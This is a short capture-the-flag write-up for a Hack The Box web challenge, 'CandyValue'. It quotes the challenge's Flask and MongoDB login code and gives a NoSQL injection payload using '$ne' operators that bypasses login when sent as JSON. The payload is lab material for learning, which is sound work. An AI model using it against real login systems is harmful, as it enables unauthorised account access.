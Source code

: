 ```yaml
---
layout: post
title:  "CandyValue"
date:   2025-04-10 16:10:00 -0400
categories: HTB-challenge web very-easy
tags: HTB CTF writeup sql-injection
---
```


### SOLUTION
By analyzing the code, we can see the web uses `MongoDB` and its `Content-Type`.
```
from pymongo import MongoClient

app = Flask(__name__)
app.config.from_object("application.config.Config")
bcrypt = Bcrypt(app)

client = MongoClient(app.config["MONGO_URI"])
db = client[app.config["DB_NAME"]]
users_collection = db["users"]

@app.errorhandler(Exception)
def handle_error(error):
    message = error.description if hasattr(error, "description") else [str(x) for x in error.args]
    
    response = {
        "error": {
            "type": error.__class__.__name__,
            "message": message
        }
    }

    return response, error.code if hasattr(error, "code") else 500


@app.route("/", methods=["GET"])
def index():
    return render_template("index.html")


@app.route("/login", methods=["POST"])
def login():
    content_type = request.headers.get("Content-Type")

    if content_type == "application/x-www-form-urlencoded":
        email = request.form.get("email")
        password = request.form.get("password")

    elif content_type == "application/json":
        data = request.get_json()
        email = data.get("email")
        password = data.get("password")
```

Search for `Payloads for MongoDB bypass login`.
![](assets/img/htb/candyvalue/1.png)

```
{
"email": {
"$ne": "invalid"
},
"password": {
"$ne": "invalid"
}
}
```

Now we need to change content-type to `application/json` and add payload to data.
![](assets/img/htb/candyvalue/2.png)
